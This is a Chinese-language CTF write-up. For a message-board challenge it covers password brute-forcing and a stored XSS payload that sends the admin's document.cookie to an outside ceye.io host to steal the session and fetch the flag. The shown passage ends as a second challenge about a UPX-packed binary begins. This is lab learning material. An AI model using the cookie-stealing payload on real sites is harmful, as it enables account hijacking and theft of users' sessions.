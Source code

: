 
### Level 69 MysteryMessageBoard

密码爆破，XSS cookie窃取

![image-20250206160024933](./assets/image-20250206160024933.png)

爆出来 shallot/888888

登进去看到一个留言板

![image-20250206160118188](./assets/image-20250206160118188.png)

猜测是xss，测试一下

```
<script>alert('XSS')</script> 
```

![image-20250206160225628](./assets/image-20250206160225628.png)

同时通过dirsearch扫到了/admin路由

![image-20250206160449456](./assets/image-20250206160449456.png)

![image-20250206160507469](./assets/image-20250206160507469.png)

根据这句话大概可以猜到，访问/admin路由的时候应该会在后端以admin的身份来访问留言板

也就是说我们可以进行cookie窃取

payload:

```
<script>document.location='http://dfny33.ceye.io?'+document.cookie;</script>
```

将payload输出在留言板，然后访问/admin

![f01e1737d9537ace6383c2aa28b8be2](./assets/f01e1737d9537ace6383c2aa28b8be2.jpg)

成功拿到admin的cookie

拿admin的cookie访问/flag即可拿到flag



### Level 25 双面人派对

![image-20250206161540205](./assets/image-20250206161540205.png)

这道题有两个环境，一开始以为是re，其实感觉更像是misc

访问app.service-web可以拿到一个main文件

是一个elf文件

用exeinfo PE查到用upx加壳了

